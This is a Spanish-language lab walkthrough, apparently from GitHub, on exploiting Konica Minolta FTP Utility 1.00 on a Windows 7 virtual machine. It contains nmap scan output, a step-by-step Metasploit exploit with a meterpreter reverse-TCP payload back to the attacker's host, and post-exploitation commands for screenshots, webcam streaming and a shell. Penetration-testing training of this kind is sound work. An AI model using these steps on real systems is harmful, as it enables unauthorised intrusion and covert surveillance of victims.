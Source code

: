 # Explotación de Vulnerabilidad en Konica Minolta FTP Utility

TARGET: 192.168.153.181 (WINDOWS con KONIKA)

##  Enumeración de servicios

Disponemos de un servicio FTP que tiene KONICA, ejecutemos un NMAP

![image](https://user-images.githubusercontent.com/50930193/170808832-22fb84b1-adf6-4e99-8ab4-84a553b3dc7e.png)

# Explotación de Vulnerabilidad Konika

TARGET: 192.168.153.180 (Konica Minolta)

##  Enumeración de servicios

Ejecutamos nmap
```
nmap -A -p- -T4 -oX win.txt 192.168.153.180
```
Estos son los resultados

```
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            Konica Minolta FTP Utility ftpd 1.00
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxrwxrwx   1 Elliot   Elliot            402 Jan 18  2020 desktop.ini [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ          545 Apr 15  2020 dll.h [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ          635 Apr 15  2020 dllmain.cpp [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ         1280 Apr 15  2020 Makefile.win [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Music [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Pictures [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Videos [NSE: writeable]
|_-rwxrwxrwx   1 Administ Administ          801 Apr 15  2020 test.dev [NSE: writeable]
|_ftp-bounce: bounce working!
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
554/tcp   open  rtsp?
2869/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp  open  ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-M2PPJKIFLHN
| Not valid before: 2021-05-16T00:14:42
|_Not valid after:  2021-11-15T00:14:42
|_ssl-date: 2021-06-08T20:42:37+00:00; -1s from scanner time.
5357/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
10243/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
49156/tcp open  msrpc          Microsoft Windows RPC
49157/tcp open  msrpc          Microsoft Windows RPC
MAC Address: 00:0C:29:03:C0:7A (VMware)
Service Info: Host: WIN-M2PPJKIFLHN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h22m30s, deviation: 2h44m59s, median: -1s
|_nbstat: NetBIOS name: WIN-M2PPJKIFLHN, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:03:c0:7a (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-M2PPJKIFLHN
|   NetBIOS computer name: WIN-M2PPJKIFLHN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-09T02:11:34+05:30
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-08T20:41:34
|_  start_date: 2021-06-08T18:59:24
[*] Execution time in seconds:
	 TTL: 0
	 Furious: 36
	 Nmap: 184
	 Total: 220

```

## Detectar software vulnerable

Ahora concentremonos en solo el puerto 445

```
nmap -sV -p21 --script 'default,vuln' -oA 192.168.153.180_vuln 192.168.153.180
```
Los resultados son los siguientes
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-08 16:44 EDT
Nmap scan report for 192.168.153.180
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Konica Minolta FTP Utility ftpd 1.00
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxrwxrwx   1 Elliot   Elliot            402 Jan 18  2020 desktop.ini [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ          545 Apr 15  2020 dll.h [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ          635 Apr 15  2020 dllmain.cpp [NSE: writeable]
| -rwxrwxrwx   1 Administ Administ         1280 Apr 15  2020 Makefile.win [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Music [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Pictures [NSE: writeable]
| drwxrwxrwx   1 SYSTEM   SYSTEM              0 Jan 18  2020 My Videos [NSE: writeable]
|_-rwxrwxrwx   1 Administ Administ          801 Apr 15  2020 test.dev [NSE: writeable]
|_ftp-bounce: bounce working!
|_sslv2-drown: 
MAC Address: 00:0C:29:03:C0:7A (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds

```

Esta vulnerabilidad explota la vulnerabilidad del Software Konica Minolta que operaba bajo el puerto 21. En los resultados vemos que se pueden ubicar usuarios anonimos

Asimismo, en la máquina con Konica se puede ver con TCPView los puertos Abiertos

![image](https://user-images.githubusercontent.com/50930193/121270492-75f40a80-c887-11eb-945e-81134c4de12b.png)

## 1. Detección de Vulnerabilidad con Metasploit

Ingresa a metasploit
```
msfconsole -q
```
El primer paso es ubicar un módulo que permita validar si el servicio es vulnerable
```
search konica
```
![image](https://user-images.githubusercontent.com/50930193/121254556-045c9200-c870-11eb-9152-054610599a31.png)

Usemos ese exploit marcado
```
use exploit/windows/ftp/kmftp_utility_cwd
```
Tambien podemos usar con el #
```
use 1
```

![image](https://user-images.githubusercontent.com/50930193/121109445-35d25080-c7d1-11eb-9255-30e17f289f53.png)

Seteamos el payload
```
set payload windows/meterpreter/reverse_tcp
```
![image](https://user-images.githubusercontent.com/50930193/121109524-5c908700-c7d1-11eb-8358-7d8ea4a1b830.png)

Revise que parámetros son necesarios incluir en este payload
```
show options
```
![image](https://user-images.githubusercontent.com/50930193/121109809-dd4f8300-c7d1-11eb-9c28-a748cef416cd.png)


Considere los parámetros no opcionales, si no encontrara los parametros llenos seteelos de la siguiente manera:

```
set RHOSTS  192.168.153.180
set LHOST 192.168.153.178

```
![image](https://user-images.githubusercontent.com/50930193/121254741-3c63d500-c870-11eb-9bfc-6b0eb1ee1fcf.png)

Ahora que tiene todos los parametros llenos, lance el exploit
```
exploit

```



En este caso levanta el meterpreter y pueden ejecutar diversos comandos
```
meterpreter > help
meterpreter > ls
meterpreter > pwd
meterpreter > screenshot
meterpreter > webcam_list
meterpreter > shell
```

Otros comandos desde msf
```
sessions -v
```
![image](https://user-images.githubusercontent.com/50930193/170809241-3e8f7a4a-9415-4b7a-bc12-75f85fbc01f9.png)

```
sessions -C screenshot -i 1,2
```
![image](https://user-images.githubusercontent.com/50930193/170809319-8338a599-5a16-4b72-9508-49bf1e1542d9.png)


##  Proceso de Explotación (Resumen)

Digite desde el terminal de kali

```
msfconsole -q
use exploit/windows/ftp/kmftp_utility_cwd
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.109.128 (IP of Local Host)
set rhost 192.168.109.131
set FTPUSER anonymous
exploit
```

Desde meterpreter pueden ejecuitar lo siguiente:
```
screenshot
webcam_list
webcam_stream
getuid
sysinfo
```
